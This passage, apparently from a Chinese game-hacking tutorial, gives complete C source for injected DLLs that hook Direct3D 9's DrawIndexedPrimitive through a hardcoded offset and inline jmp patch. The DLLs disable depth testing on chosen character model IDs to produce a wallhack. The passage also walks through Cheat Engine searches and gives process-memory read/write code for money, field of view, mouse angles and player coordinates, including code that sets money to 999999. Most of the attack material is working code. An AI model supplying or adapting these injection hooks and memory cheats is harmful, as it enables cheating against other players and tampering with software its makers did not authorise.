    return Transfer_DrawIndexedPrimitive(m_pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);
}

// 获取函数基址
ULONG_PTR GetDrawIndexedPrimitiveAddr()
{
    HANDLE handle = GetModuleHandle(TEXT("d3d9.dll"));      // 获得d3d9.dll模块基址
    if (handle == INVALID_HANDLE_VALUE) return NULL;
    return(ULONG_PTR)handle + 0x5F5C0;                      // 相加偏移
}

// 挂钩函数
bool HookDrawIndexedPrimitive()
{
    ULONG_PTR address = GetDrawIndexedPrimitiveAddr();
    DWORD oldProtect = 0;
    if (VirtualProtect((LPVOID)address, 5, PAGE_EXECUTE_READWRITE, &oldProtect))   // 设置内存保护方式为可读写
    {
        DWORD value = (DWORD)MyDrawIndexedPrimitive - address - 5;                 // 计算出需要跳转字节
        jump = address + 5;                                                        // 计算下一个跳转字节
        __asm
        {
            mov eax, address
                mov byte ptr[eax], 0xe9                                             // 填充为 jmp
                add eax, 1                                                          // 指针递增
                mov ebx, value                                                      // 中转
                mov dword ptr[eax], ebx                                             // 赋值跳转地址(远跳转)
        }
        VirtualProtect((LPVOID)address, 5, oldProtect, &oldProtect);                // 恢复内存保护方式
    }
    return true;
}

bool APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
    HookDrawIndexedPrimitive();

    return true;
}
```

将二者读者可使用各种注入软件将该程序注入到特定进程内，当注入成功后会弹出提示框，此时每次画面发生变化都会触发中转，并在触发后统计触发次数，如下图所示；



#### 7.1.3 寻找模型ID并实现透视

由于在上色时我们不可能全部上色只能是将关键人物进行上色，而每一个人物都具备一个独有的人物模型ID号，当我们能够找到这个ID号时也就可以在程序内对该ID进行过滤，如果是我们所需要的人物则只需要通过`SetRenderState`关闭该任务的Z轴缓冲区即可实现对特定人物的上色功能，这里笔者使用的是依次遍历法寻找，在寻找时我们通过`SetWindowLong`注册一个全局热键，给与`iStrideValue`全局变量一个初始值，并通过上下左右依次对该值进行遍历，按下小键盘上左键可对该变量进行递增，而按下右下则可以对该变量进行递减操作。

```c
#include <windows.h>
#include <iostream>
#include <d3d9.h>

#pragma comment(lib, "d3d9.lib")
DWORD jump = 0;

// 虚拟按键代码片段
WNDPROC Global_OldProc = NULL;
HWND Window;

// 人物模型
DWORD iStrideValue = 0;
DWORD NumVerticesValue = 0;

BOOL CALLBACK EnumWindowsProc(HWND hwnd, LPARAM lParam)
{
    DWORD dwCurProcessId = *((DWORD*)lParam);
    DWORD dwProcessId = 0;

    GetWindowThreadProcessId(hwnd, &dwProcessId);
    if (dwProcessId == dwCurProcessId && GetParent(hwnd) == NULL)
    {
        *((HWND *)lParam) = hwnd;
        return FALSE;
    }
    return TRUE;
}

HWND GetMainWindow()
{
    DWORD dwCurrentProcessId = GetCurrentProcessId();
    if (!EnumWindows(EnumWindowsProc, (LPARAM)&dwCurrentProcessId))
    {
        return (HWND)dwCurrentProcessId;
    }
    return NULL;
}

// 中转函数,执行被我们填充后的指令片段，并跳转到原始指令的后面继续执行
__declspec(naked) HRESULT __stdcall Transfer_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    __asm{
        mov edi, edi
            push ebp
            mov ebp, esp
            mov eax, jump
            jmp eax
    }
}

// 在此函数中DIY你的项目，这个就是我们的中转函数，用于绘制透视方框等
HRESULT __stdcall MyDrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    HRESULT Result = S_FALSE;
    IDirect3DVertexBuffer9 *pStreamData = NULL;
    UINT iOffsetInBytes, iStride;

    if (m_pDevice->GetStreamSource(0, &pStreamData, &iOffsetInBytes, &iStride) == D3D_OK)
    {
        pStreamData->Release();  // 得到模型来源
    }

    // 相等则找下一组模型
    if (iStride == iStrideValue)
    {
        // 找子模型号
        if (NumVertices == NumVerticesValue)
        {
            // 禁用Z轴
            //m_pDevice->SetRenderState(D3DRS_ZENABLE, FALSE);

            // 人物线条透视
            m_pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_WIREFRAME);
        }
        else
        {
            // 恢复Z轴
            //m_pDevice->SetRenderState(D3DRS_ZENABLE, TRUE);

            // 恢复默认线条
            // m_pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_SOLID);
            m_pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_SOLID);
        }
    }
    else
    {
        // 恢复Z轴
        //m_pDevice->SetRenderState(D3DRS_ZENABLE, TRUE);

        // 恢复默认线条
        //m_pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_SOLID);
    }

    Result = Transfer_DrawIndexedPrimitive(m_pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);
    return Result;
}

// 通过硬编码方式获取到GetDrawIndexedPrimitive函数的基地址
ULONG_PTR GetDrawIndexedPrimitiveAddr()
{
    HANDLE handle = GetModuleHandle(TEXT("d3d9.dll"));      // 获得d3d9.dll模块基址
    if (handle == INVALID_HANDLE_VALUE)
        return NULL;
    
    return(ULONG_PTR)handle + 0x5F5C0;                      // 相加偏移
}

// 开始Hook
bool HookDrawIndexedPrimitive()
{
    ULONG_PTR address = GetDrawIndexedPrimitiveAddr();
    DWORD oldProtect = 0;
    if (VirtualProtect((LPVOID)address, 5, PAGE_EXECUTE_READWRITE, &oldProtect))   // 设置内存保护方式为可读写
    {
        DWORD value = (DWORD)MyDrawIndexedPrimitive - address - 5;                 // 计算出需要跳转字节
        jump = address + 5;                                                        // 计算下一个跳转字节
        __asm
        {
            mov eax, address
                mov byte ptr[eax], 0xe9                                                 // 填充为 jmp
                add eax, 1                                                              // 指针递增
                mov ebx, value                                                          // 中转
                mov dword ptr[eax], ebx                                                 // 赋值跳转地址(远跳转)
        }
        VirtualProtect((LPVOID)address, 5, oldProtect, &oldProtect);               // 恢复内存保护方式
    }
    return true;
}

// 热键回调函数
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{

    switch (uMsg)
    {
    case WM_KEYDOWN:
    {
        switch (wParam)
        {


        case VK_UP:
        {
            char str[512] = { 0 };

            iStrideValue = iStrideValue + 1;

            sprintf(str, "iStrideValue [上加 控制]= > %d \n", iStrideValue);
            OutputDebugStringA(str);

            break;
        }
        case VK_DOWN:
        {
            char str[512] = { 0 };

            iStrideValue = iStrideValue - 1;

            sprintf(str, "iStrideValue [下减 控制]= > %d \n", iStrideValue);
            OutputDebugStringA(str);
            break;
        }
        case VK_RIGHT:
        {
            char str[512] = { 0 };

            NumVerticesValue = NumVerticesValue + 1;

            sprintf(str, "NumVerticesValue [左加 控制]= > %d \n", NumVerticesValue);
            OutputDebugStringA(str);
            break;
        }
        case VK_LEFT:
        {
            char str[512] = { 0 };
            NumVerticesValue = NumVerticesValue - 1;

            sprintf(str, "NumVerticesValue [右减 控制]= > %d \n", NumVerticesValue);
            OutputDebugStringA(str);
            break;
        }
        break;
        }
    }
    break;
    }

    // 全局热键回调函数
    return CallWindowProc(Global_OldProc, hwnd, uMsg, wParam, lParam);
}

// 主函数判断如果是游戏标题则进行注入
bool APIENTRY DllMain(HANDLE handle, DWORD ul_reason_for_call, LPVOID lpvoid)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
    {
        // 获取自身进程窗口句柄
        Window = GetMainWindow();

        // 注册全局热键
        Global_OldProc = (WNDPROC)SetWindowLong(Window, GWL_WNDPROC, (LONG)WindowProc);
        HookDrawIndexedPrimitive();
        break;
    }

    case DLL_PROCESS_DETACH:
        break;


    default:
        break;
    }

    return TRUE;
}
```
读者可自行编译上述代码片段，并将其注入到游戏内，通过提高过滤ID号依次观察游戏内是否有变化，当出现物体消失时则可证明此ID号就是我们所需要的，此时只需要记录下该号码即可，如下是笔者寻找到的一些ID号；

子模型1311，该模型是敌人骨骼模型，关闭后可将人物变为骨骼线条
子模型1510，是第二类敌人的骨骼模型
模型号1603是P90武器自身手持时的模型样式
模型1161是警察手枪的样式
模型1286是自己的手
模型786是自己的小刀
模型66 是铁桶
模型323是第一个人物的ID
模型368是第二个人物的ID
模型408是第三个人物ID
模型389是第四个人物ID

有了这些模型ID则我们只需要在`MyDrawIndexedPrimitive`自定义函数内对所需要显示的模型进行过滤即可，在过滤时通过控制`NumVertices`中的变量值判断是否符合如果符合要求则只需要`D3DRS_ZENABLE, D3DZB_FALSE`禁用Z轴缓冲区即可实现透视效果。
```c
#include <windows.h>
#include <iostream>
#include <d3d9.h>

#pragma comment(lib, "d3d9.lib")
DWORD jump = 0;

IDirect3DPixelShader9* Front = NULL;
IDirect3DTexture9* Color;

// 中转函数,执行被我们填充后的指令片段，并跳转到原始指令的后面继续执行
__declspec(naked) HRESULT __stdcall Transfer_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    __asm{
        mov edi, edi
            push ebp
            mov ebp, esp
            mov eax, jump
            jmp eax
    }
}

// 在此函数中DIY你的项目，这个就是我们的中转函数，用于绘制透视方框等
HRESULT __stdcall MyDrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    HRESULT Result = S_FALSE;
    IDirect3DVertexBuffer9 *pStreamData = NULL;
    UINT iOffsetInBytes, iStride;

    if (m_pDevice->GetStreamSource(0, &pStreamData, &iOffsetInBytes, &iStride) == D3D_OK)
    {
        pStreamData->Release();  // 得到模型来源
    }

    // 相等则找下一组模型
    if (iStride == 32)
    {
        // 找子模型号
        if (NumVertices == 323 || NumVertices == 368 || NumVertices == 408 || NumVertices == 389)
        {
            m_pDevice->SetPixelShader(Front);                        // 清空着色器
            m_pDevice->SetTexture(0, Color);                         // 上色
            m_pDevice->SetRenderState(D3DRS_ZENABLE, D3DZB_FALSE);   // 禁用z轴缓冲
            m_pDevice->SetRenderState(D3DRS_ZFUNC, D3DCMP_NEVER);
        }
        else
        {
            // 恢复Z轴
            m_pDevice->SetRenderState(D3DRS_ZENABLE, TRUE);
        }
    }
    else
    {
        // 恢复Z轴
        m_pDevice->SetRenderState(D3DRS_ZENABLE, TRUE);
    }

    Result = Transfer_DrawIndexedPrimitive(m_pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);

    m_pDevice->SetRenderState(D3DRS_ZFUNC, D3DCMP_LESSEQUAL);
    return Result;
}

// 通过硬编码方式获取到GetDrawIndexedPrimitive函数的基地址
ULONG_PTR GetDrawIndexedPrimitiveAddr()
{
    HANDLE handle = GetModuleHandle(TEXT("d3d9.dll"));      // 获得d3d9.dll模块基址
    if (handle == INVALID_HANDLE_VALUE)
        return NULL;
    return(ULONG_PTR)handle + 0x5F5C0;                      // 相加偏移
}

// 开始Hook
bool HookDrawIndexedPrimitive()
{
    ULONG_PTR address = GetDrawIndexedPrimitiveAddr();
    DWORD oldProtect = 0;
    if (VirtualProtect((LPVOID)address, 5, PAGE_EXECUTE_READWRITE, &oldProtect))   // 设置内存保护方式为可读写
    {
        DWORD value = (DWORD)MyDrawIndexedPrimitive - address - 5;                 // 计算出需要跳转字节
        jump = address + 5;                                                        // 计算下一个跳转字节
        __asm
        {
            mov eax, address
                mov byte ptr[eax], 0xe9                                                 // 填充为 jmp
                add eax, 1                                                              // 指针递增
                mov ebx, value                                                          // 中转
                mov dword ptr[eax], ebx                                                 // 赋值跳转地址(远跳转)
        }
        VirtualProtect((LPVOID)address, 5, oldProtect, &oldProtect);               // 恢复内存保护方式
    }
    return true;
}

// 主函数判断如果是游戏标题则进行注入
bool APIENTRY DllMain(HANDLE handle, DWORD ul_reason_for_call, LPVOID lpvoid)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
    {
        HookDrawIndexedPrimitive();
        break;
    }

    case DLL_PROCESS_DETACH:
        break;

    default:
        break;
    }

    return TRUE;
}
```

当读者将上方代码注入到游戏进程内时则可实现对特定人物的透视效果，如下图所示；



而如果想要对这些人物进行上色，那么只需要在劫持函数内做进一步过滤即可实现，如下是一段使用非嵌套汇编实现的代码片段，以让读者可以跟好的在实际中使用。
```c
#include <windows.h>
#include <iostream>
#include <d3d9.h>

#pragma comment(lib, "d3d9.lib")

// DrawIndexedPrimitive入口的前5个字节
int* d3d_Dw5byte = new int;

IDirect3DPixelShader9* Front = NULL;

// 红色纹理
IDirect3DTexture9* Color_TexRed;

// DrawIndexedPrimitive调用地址
ULONG_PTR g_DwJmpTo = NULL;

// DrawIndexedPrimitive被HOOK后地址
ULONG_PTR g_DwAdder = NULL;

// 函数声明
HRESULT WINAPI hk_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 Device_Interface, D3DPRIMITIVETYPE Type, INT BaseIndex, UINT MinIndex, UINT NumVertices, UINT AAAAAAAA, UINT PrimitiveCount);
HRESULT WINAPI Original_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount);

// 获取DrawIndexedPrimitive地址
ULONG_PTR GetDrawIndexedPrimitiveAdder()
{
    HMODULE m_hModule = GetModuleHandle(L"d3d9.dll");
    return (ULONG_PTR)m_hModule + 0x5F5C0;
}

// 初始化HOOK
void OnHookInit()
{
    g_DwAdder = GetDrawIndexedPrimitiveAdder();
    g_DwJmpTo = g_DwAdder + 5;
    DWORD oldpro = 0;

    // 保存DrawIndexedPrimitive入口的前5个字节
    memcpy(d3d_Dw5byte, (VOID*)g_DwAdder, 5);

    // 修改内存保护属性
    VirtualProtect((LPVOID)g_DwAdder, 5, PAGE_EXECUTE_READWRITE, &oldpro);

    // 0xe9在汇编中是跳转指令操作码  
    *(BYTE*)g_DwAdder = 0xe9;

    // 目标地址-原地址-5  
    *(DWORD*)((BYTE*)g_DwAdder + 1) = (DWORD)hk_DrawIndexedPrimitive - (DWORD)g_DwAdder - 5;

    // 还原内存保护属性
    VirtualProtect((LPVOID)g_DwAdder, 5, oldpro, &oldpro);
}

// 创建纹理
HRESULT GenerateTexture(IDirect3DDevice9 *pD3Ddev, IDirect3DTexture9 **ppD3Dtex, DWORD colour32)
{
    if (FAILED(pD3Ddev->CreateTexture(8, 8, 1, 0, D3DFMT_A4R4G4B4, D3DPOOL_MANAGED, ppD3Dtex, NULL)))
        return E_FAIL;

    WORD colour16 =
        ((WORD)((colour32 >> 28) & 0xF) << 12)
        | (WORD)(((colour32 >> 20) & 0xF) << 8)
        | (WORD)(((colour32 >> 12) & 0xF) << 4)
        | (WORD)(((colour32 >> 4) & 0xF) << 0);

    D3DLOCKED_RECT d3dlr;
    (*ppD3Dtex)->LockRect(0, &d3dlr, 0, 0);
    WORD *pDst16 = (WORD*)d3dlr.pBits;

    for (int xy = 0; xy < 8 * 8; xy++)
        *pDst16++ = colour16;

    (*ppD3Dtex)->UnlockRect(0);
    return S_OK;
};

// 调用真实的DrawIndexedPrimitive函数
__declspec(naked) HRESULT WINAPI Original_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    __asm
    {
        mov edi, edi
            push ebp
            mov ebp, esp
            mov eax, g_DwJmpTo
            jmp eax
    }
}

// DrawIndexedPrimitive被HOOK的函数
HRESULT WINAPI hk_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 pDevice, D3DPRIMITIVETYPE type, INT BaseVertexIndex, UINT MinVertexIndex, UINT NumVertices, UINT startIndex, UINT primCount)
{
    IDirect3DVertexBuffer9* pStreamData = NULL;
    UINT iOffsetInBytes;
    UINT iStride;
    if (pDevice->GetStreamSource(0, &pStreamData, &iOffsetInBytes, &iStride) == D3D_OK)
    {
        pStreamData->Release();
    }

    // 找主模型
    if (iStride == 32)
    {
        if (NumVertices == 323 || NumVertices == 368 || NumVertices == 408 || NumVertices == 389)
        {
            // 设置红色纹理
            //GenerateTexture(pDevice, &Color_TexRed, D3DCOLOR_ARGB(255, 127, 255, 0));

            pDevice->SetPixelShader(Front);                     // 清空着色器
            // pDevice->SetTexture(0, Color_TexRed);               // 上色
            pDevice->SetRenderState(D3DRS_ZENABLE, D3DZB_FALSE);// 禁用z轴缓冲

            pDevice->SetRenderState(D3DRS_ZFUNC, D3DCMP_NEVER);
            Original_DrawIndexedPrimitive(pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);
            pDevice->SetRenderState(D3DRS_ZFUNC, D3DCMP_LESSEQUAL);

            // 线填充模式 D3D在多边形的每个边绘制一条线
            pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_WIREFRAME);
        }
        else
        {
            // 恢复禁用轴缓冲
            pDevice->SetRenderState(D3DRS_ZENABLE, TRUE);

            // 恢复默认线条
            pDevice->SetRenderState(D3DRS_FILLMODE, D3DFILL_SOLID);
        }
    }

    return Original_DrawIndexedPrimitive(pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);
}

// 主函数判断如果是游戏标题则进行注入
bool APIENTRY DllMain(HANDLE handle, DWORD ul_reason_for_call, LPVOID lpvoid)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
    {
        OnHookInit();
        break;
    }

    case DLL_PROCESS_DETACH:
        break;

    default:
        break;
    }

    return TRUE;
}
```

当这段代码被注入后，则读者可自行观察游戏内的人物变化，如下图所示；




### 7.2 寻找游戏基址数据

本节内容将教会读者如何在游戏中寻找关键数据，并通过编程实现对这些数据的灵活获取。本节的实现方法会依赖于`第七篇：应用进线程操控技术`中所介绍的方法，如果读者对此不太了解，建议先阅读该章节以掌握相关知识点。

我们的目标是找到游戏中的关键数据，例如玩家的位置、敌人的位置、玩家的状态等。这些数据在游戏中通常存储在内存中，通过读取游戏进程的内存来获取这些数据。在第七篇中，我们已经学习了如何通过进程操控技术来读取和写入游戏进程的内存数据。

在本节中，我们将进一步应用这些技术，通过分析游戏的内存结构和特征来找到目标数据的地址。这通常涉及到使用调试器、内存查找工具或者模拟器等工具来辅助分析。通过对关键数据的读取和写入操作，我们可以实现对游戏状态的监控、修改以及其他一些自定义功能的实现。

#### 7.2.1 寻找无限金币基址

在开始找数据之前我们需要寻找该游戏的金钱基址，因为在后期寻找其他基址时需要购买装备，金钱的寻找非常容易，根据之前`CE`中所讲解的整数搜索方法即可找到，在本游戏中我们只需要搜索金钱变化的数据，在定位到特定动态地址后，选择查找访问地址，此时即可得到一级偏移地址`0x117C`下一个搜索地址为`0x2D4E64F8`



通过对该地址进行十六进制搜索，即可得到如下图所示的五个绿色基地址，这五个地址都可以使用，如下图所示；



上图搜索到的四个绿色地址均可以作为基地址使用，我们以第一个内存地址为例，首先需要通过`GetProcessModuleHandle()`得到服务端模块基地址，并通过该地址加上`0x4F2FEC`获取到基地址所在模块中的位置，接着通过都内存将该偏移中的数据读入到`read_process_memory`变量内，最后再将该地址加上`0x117c`偏移即可读取到动态数据，写出时只需要向`offset`中设置数据即可，如下所示；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    // 获取模块基地址
    DWORD local_base = module_base + 0x4F2FEC;

    // 读入基址
    DWORD read_process_memory = ReadMemory<DWORD>(handle, local_base);
    printf("基地址 = 0x%x \n", read_process_memory);

    // 读取偏移地址
    DWORD offset = read_process_memory + 0x117c;
    DWORD value = ReadMemory<DWORD>(handle, offset);
    printf("读入数据 = %d \n", value);

    // 写出数据
    WriteMemory<DWORD>(handle, offset, (DWORD)999999);

    system("pause");
    return 0;
}
```

代码运行后读者可自行观察游戏内的金钱变化，此时金钱会变为`999999`如下图是读取到的参数；



#### 7.2.2 寻找FOV视场角基址

在`FPS`第一人称射击游戏中，视场角（`FOV`，Field of View）是指摄像机（玩家的视角）所能看到的水平范围。视场角的大小直接影响玩家在游戏中所能观察到的环境范围。较大的视场角将展示更宽广的视野，相反，较小的视场角缩小了玩家的视野范围。

在大多数FPS游戏中，玩家通常可以自定义或调整视场角的大小，以满足其个人偏好和游戏需求。不同的游戏可能有不同的默认视场角设置，视场角的大小决定了摄像机的视野范围，简单来说`FOV`就是屏幕与摄像机之间的夹角。

我们可以通过狙击枪的狙击镜来找到游戏的视场角度，通常当未开镜状态时搜索`未知初始化数据（浮点数）`，开镜后搜索`改变的数值（浮点数）`，依次遍历即可找到该游戏的视场角度，一般的FPS游戏视场角为`90度`的居多，但也不排除出现`45度，75度`的视场角度。

打开CE修改器并在游戏内购买一把狙击枪，然后在CE修改器中搜索`未知的初始值（浮点数）`当搜索结束后会看到许多搜索结果，此时我们回到游戏内，打开狙击枪的一倍狙击镜，此时在CE中搜索`变动的数值（浮点数）`，接着再打开二倍狙击镜，继续搜索`变动的数值（浮点数）`，最后关闭狙击镜搜索`变动的数值（浮点数）`，该过程读者可以自行重复十次至二十次左右，此时读者应该能看到如下图所示的搜索结果；



此时狙击镜处于关闭状态，直接搜索`未变动的数值（浮点数）`，然后切换出手枪，继续搜索`未变动的数值（浮点数）`因为手枪的视野与未开镜状态下的狙击枪是一样的，这样搜索能够尽量排除干扰，从而更精确的筛选到我们所需要的数据。



3.经过了上方的遍历以后，结果已经不多了如上图所示只有`78`个结果，我们可以猜测这个角度应该在`0-180度`之间，所以通过使用`介于两者之间`筛查模式，再次筛选一下结果，之后就可以看到有两个`90`度的角，而且是绿色的基址，一般情况下开发人员默认会将这个角设置为`45`，`75`或`90`度，如下图所示；



通过上方的筛查我们可以看到，在关闭狙击镜的情况下这个值默认是`90`通过打开狙击镜不同的倍数，这个视场角也会呈现有规律的变动，此处这些绿色地址都可以被直接使用，我们选用`client.dll`客户端模块内的参数，当存在引擎`engine.dll`模块时则可以优先使用引擎类内的参数，这可以使结果更加准确。

 - FOV = client.dll+5046F0
 - FOV = client.dll+504628
 - FOV = client.dll+5047B8
 - FOV = client.dll+50489C
 - FOV = engine.dll+3C1720

此处由于基地址只有一层，并没有偏移值，所以在编写读写模块时只需要注意浮点数模式即可，其他读写方式与上述方法保持一致，如下是读取视场角的完整代码实现；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"engine.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    // 获取模块基地址
    DWORD local_base = module_base + 0x3C1720;

    while (1)
    {
        // 读入基址
        FLOAT fov = ReadMemory<FLOAT>(handle, local_base);
        printf("[+] 视场角变化 = %f \n", fov);
        Sleep(400);
    }

    system("pause");
    return 0;
}
```

运行上述程序，并回到游戏中，手动切换狙击镜，此时的视场角将会发生变化，默认状态值`90`度，一倍镜`40`度，二倍镜`15`度，如下图所示；



#### 7.2.3 寻找本人鼠标角度基址

通常情况下`FPS`游戏中，鼠标的准心`Y坐标`向上抬起时会减少，而鼠标准心向下压低时会增加，通过不断的遍历(浮点数)就可以搜索到鼠标的准心Y坐标，得到了鼠标的Y坐标之后然后`+4`就能得到鼠标的`X坐标`参数。

首先打开`CE`进入游戏，默认情况下鼠标放置在屏幕的中心位置，此时直接搜索`未知初始化数据（浮点数）`，然后将游戏鼠标向上微抬，回到CE中搜索`减少的数值（浮点数）`，根据此方法多次向上抬鼠标，并搜索减少的数值，此过程重复10次左右。



接着将鼠标逐步向下微压，并回到CE修改器中，然后搜索`增加的数值（浮点数）`这里要重复10次，最后不要动鼠标直接搜索`未变动的数值（浮点数）`即可找到以下结果，这些结果代表的则是当前鼠标的`Y轴`，通过对该地址`+4`即可得到鼠标的`X轴`，如下图出现的这些绿色地址数值是`13.0`的都是可以被使用的，读者可自行挑选一个；



只可读出坐标数据：

 - 鼠标 x = engine.dll+61D254 + 4
 - 鼠标 y = engine.dll+61D254
 - 鼠标 x = client.dll+4C0300 + 4
 - 鼠标 y = client.dll+4C0300

可设置鼠标位置：

 - 鼠标 x = engine.dll +4622CC +4
 - 鼠标y = engine.dll + 4622CC

当有了这些数据我们就可以通过编程的方式来读取鼠标的坐标，首先我们定义一个`鼠标角度`结构体，通过循环的方式将角度读入当内存并得到我们所需角度变化值，如下代码所示；

```c
typedef struct
{
    FLOAT 鼠标X轴;
    FLOAT 鼠标Y轴;
}鼠标角度;

int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"engine.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    鼠标角度 鼠标;

    while (1)
    {
        // 读取鼠标X轴
        鼠标.鼠标X轴 = ReadMemory<FLOAT>(handle, module_base + 0x61D254 + 0x4);

        // 横坐标转一圈从-180度到180度 我们需要让其变成0-360度
        if (鼠标.鼠标X轴 < 0)
        {
            // 如果鼠标X轴小于0则加上360度得到正数
            鼠标.鼠标X轴 = 360 + 鼠标.鼠标X轴;
        }

        鼠标.鼠标Y轴 = ReadMemory<FLOAT>(handle, module_base + 0x61D254);
        鼠标.鼠标Y轴 = 鼠标.鼠标Y轴 * -1;

        printf("[*] 鼠标X轴 = %f | 鼠标Y轴 = %f \n", 鼠标.鼠标X轴, 鼠标.鼠标Y轴);
        Sleep(400);
    }

    system("pause");
    return 0;
}
```

读者可自行运行上述代码片段，并回到游戏，此时当我们的鼠标角度发生变化时，输出结果中的坐标值也会跟随变化，如下图所示；



#### 7.2.4 寻找本人坐标数据基址

在FPS类游戏中，由于地图是三维的所以坐标也会分为`X/Y/Z`三种，游戏中一般会使用`X/Y`坐标作为前后左右方位的移动，而`Z坐标`则用于标注人物的高度，通常情况下`（X,Y）`坐标的浮动较大不好定位，但我们可以找`Z坐标`，因为Z坐标控制人物的高低参数比较好控制，我们可以找一些带有高度变化的地图，例如具有梯子，具有楼梯等，这些地图都是很好的找基址素材。

首先搜索`未知初始值（浮点数）`然后跳到箱子上或走向更高的位置搜索`增加的数值（浮点数）`，接着回到地面上搜索`减少的数值（浮点数）`，重复这个过程最后就能找到`Z轴`的坐标，通常在游戏中`（X,Y,Z）`坐标是紧挨着的结构体，`+0,+4,+8` 找到了`Z坐标`相应的就可以每次减去4计算出`(X,Y)`坐标。

如下图所示，我们可能会找到许多的内存地址，当读者无法分辨出到底哪一个是真正的内存地址是，可以通过对一片区域进行锁定，锁定后回到游戏观察是否可跳起来，如果能则说明不是，如果不能则说明在该范围内，通过对范围的逐步排查即可定位到我们所需要的地址。



如上图中所示，我们就以`0x288CE6A0`为例，在该地址上右键选择查询改写地址，此时可以看到一级偏移`esi+0x288`下一个搜索地址是`0x288CE418`，如下图所示；



接着我们搜索四字节该地址，最终即可看到如下图所示的绿色地址，这些地址都可以使用，我们就以第一个地址`server.dll+0x4F2FEC`为例，通过增加`0x288`即可得到当前自身人物的`Z轴`坐标值，如下图所示；



当读者拿到当前人物的Z轴以后，就可以通过减去`-8`获取到本人坐标X轴，而减去`-4`则是本人坐标的Y轴，读者可自行添加这三个坐标进行测试，如下图所示就得到了三个坐标的内存地址；



 - 本人坐标x = server.dll+4F2FEC + 288 - 8
 - 本人坐标y = server.dll+4F2FEC + 288 - 4
 - 本人坐标z = server.dll+4F2FEC + 288

接着我们就通过编程的方式读取这三个坐标地址吧，如下代码中通过第一次计算获取到本人基地址，接着通过对坐标递增从而获取到三维坐标，代码如下所示；

```c
typedef struct
{
    FLOAT 本人坐标X;
    FLOAT 本人坐标Y;
    FLOAT 本人坐标Z;
}本人坐标数据;

int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    本人坐标数据 本人坐标;

    while (1)
    {
        DWORD 本人基地址;
        本人基地址 = ReadMemory<DWORD>(handle, module_base + 0x4F2FEC);

        本人坐标.本人坐标X = ReadMemory<FLOAT>(handle, 本人基地址 + 0x280);
        本人坐标.本人坐标Y = ReadMemory<FLOAT>(handle, 本人基地址 + 0x284);
        本人坐标.本人坐标Z = ReadMemory<FLOAT>(handle, 本人基地址 + 0x288);

        printf("[*] 本人坐标X = %f | 本人坐标Y = %f | 本人坐标Z = %f \n", 本人坐标.本人坐标X, 本人坐标.本人坐标Y, 本人坐标.本人坐标Z);

        Sleep(400);
    }

    system("pause");
    return 0;
}
```

运行上方代码，读者可自行回到游戏中验证本人坐标数据是否准确，如下图则是本人游戏角色的位置参数；



#### 7.2.5 寻找敌人坐标数据基址

